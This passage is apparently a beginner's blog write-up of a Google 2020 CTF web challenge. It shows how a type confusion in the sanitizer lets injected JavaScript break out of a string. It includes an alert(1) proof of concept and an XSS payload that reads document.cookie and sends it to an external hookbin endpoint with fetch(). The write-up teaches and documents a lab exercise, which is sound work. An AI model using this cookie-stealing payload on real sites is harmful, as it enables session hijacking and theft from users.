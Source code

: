 and after slicing the squared brackets of the list…

``` javascript
escape_string = '";alert(1);"'
```

The code in the browser has unescaped brackets that will become part of the code and therefore we break out of the string and are able to provide our own javascript code to execute.

``` javascript
const note = ""; alert(1); "";
```

The following table shows the type and object before- and after sanitization.

|---|---|---|
| Typeof | object | string |
| Object | \[ ‘alert(1);’ \] | “alert(1);” |

In order to proof our theory, we need to create a new paste with our payload.

![_config.yml]({{ site.baseurl }}/images/google_2020_ctf_web/exploit_poc.png)

Second, we need to make sure the transmitted value is of type List, either by providing multiple values with the same name or by using this neat trick that I spotted by [gynvael](https://gynvael.coldwind.pl/).

![_config.yml]({{ site.baseurl }}/images/google_2020_ctf_web/source_code_post_content_modified.png)

When we provide the above payload, the alert method will be executed and will show up in the browser. From there on we can move to exploitation

![_config.yml]({{ site.baseurl }}/images/google_2020_ctf_web/exploit_poc_executed.png)

## Exploitation

Since we do not know what to get, my initial guess is to go for [document.cookie](https://javascript.info/cookie) of the TJMike.

In my first attempt I tried to smuggle the cookie within a subdomain name and a forced redirect, however, was not successful. I ended up using [hookbin.com](https://hookbin.com/) in combination with the [fetch method](https://javascript.info/fetch) to smuggle the cookie out using a simple get request.

``` javascript
;var p='https://hookb.in/pzygbrk11oSXNNqwanwe?q='+document.cookie;fetch(p);
```

Looking through the requests in hookbin, the only think we need to do is look for TJMike’s response and grab the flag from the query string!

``` bash
secret=CTF{Expr*********ubl3s}
```

This was also a lot of fun! Not to hard, but for me as a beginner this challenge marked as “easy” was definitely not a piece of cake.

Let me know what’s your opinion.